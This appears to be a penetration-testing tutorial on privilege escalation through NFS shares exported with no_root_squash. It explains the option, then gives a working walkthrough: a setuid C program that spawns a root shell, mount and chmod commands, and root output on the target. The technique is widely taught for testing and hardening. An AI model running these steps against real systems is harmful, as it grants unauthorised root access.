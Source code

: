 # Exploiting NFS weak Permission

Network File System (NFS) is a distributed file system protocol that allows clients to access files over a network as if they were local. However, improper configuration and weak permissions can lead to significant security vulnerabilities, allowing for potential privilege escalation.&#x20;

## Understanding NFS

* NFS allows remote users to access files stored on a server over a network.
* Files can be exported from an NFS server and mounted on client machines, enabling shared access.

## Understanding `root_squash` and `no_root_squash`

The `root_squash` option is used in NFS to prevent root users on client machines from having root privileges on the NFS server. When this option is enabled, any request made by the root user (UID 0) from a client is mapped to the `nobody` user (or another specified user) on the NFS server. This means that even if a root user on the client accesses the NFS share, they will not have elevated privileges, effectively restricting their access to what the `nobody` user can access.

The `no_root_squash` option allows root users on client machines to retain their root privileges when accessing NFS shares. When this option is enabled, root users on the client can access files on the NFS server with full root privileges. This means they can read, write, and modify files as if they were the root user on the NFS server.

## Setting `no_root_squash`&#x20;

```
dollarboysushil@kali $ nano /etc/exports
...........
...........
/var/nfs/general *(rw,no_root_squash)
...........
...........
```

## Listing all accessible mounts

```bash
dollarboysushil@kali $ showmount -e {ip}
```



## Attack scenario

We will create a simple root owned binary which will execute /bin/bash

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

then compile this .c code as

```
dollarboysushil@kali: gcc exploit.c -o exploit
```

Now being the root of our attacking machine

```
root@kali:~$ sudo mount -t nfs {target_ip}:/tmp /mnt
root@kali:~$ cp exploit /mnt
root@kali:~$ chmod u+s /mnt/exploit
```

here we are mounting /tmp of target to /mnt of our machine, then we copied our exploit to /mnt\
then uisng chmod u+s we are setting up setuid in exploit.



Now in target machine

```
user@target $: cd /tmp
user@target:/tmp $: ./exploit
root@target:/tmp #: id
uid=0(root) gid=0(root) groups=0(root),4(adm)
```

We are  now root.

